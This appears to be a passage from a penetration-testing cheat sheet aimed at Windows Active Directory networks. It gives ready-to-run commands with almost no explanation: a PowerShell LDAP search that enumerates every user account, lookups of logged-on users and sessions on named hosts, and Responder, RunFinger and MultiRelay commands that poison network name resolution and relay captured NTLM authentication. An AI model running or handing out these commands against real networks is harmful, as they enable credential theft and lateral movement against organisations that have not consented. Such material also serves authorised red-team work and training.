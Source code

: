 #### Search AD
$ldapsearch = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$searchstr); $objDomain = New-Object System.DirectoryServices.DirectoryEntry; $ldapsearch.SearchRoot = $objDomain; $ldapsearch.filter="samAccountType=805306368"; $ldapsearch.FindAll();
#### Find Logged On Users
Get-NetLoggedon -ComputerName foobar
#### Find Logged On Sessions
Get-NetSessions -ComputerName dc02


## Responder/Relay
#### Invoke MultiRelay (relays if an incoming connection is recieved)
python MultiRelay.py -t 192.168.11.17 -u ALL
#### Determine if target is vulnerable
python RunFinger.py -i 192.168.0.0/24
#### Start Responder
python Responder.py -I eth0

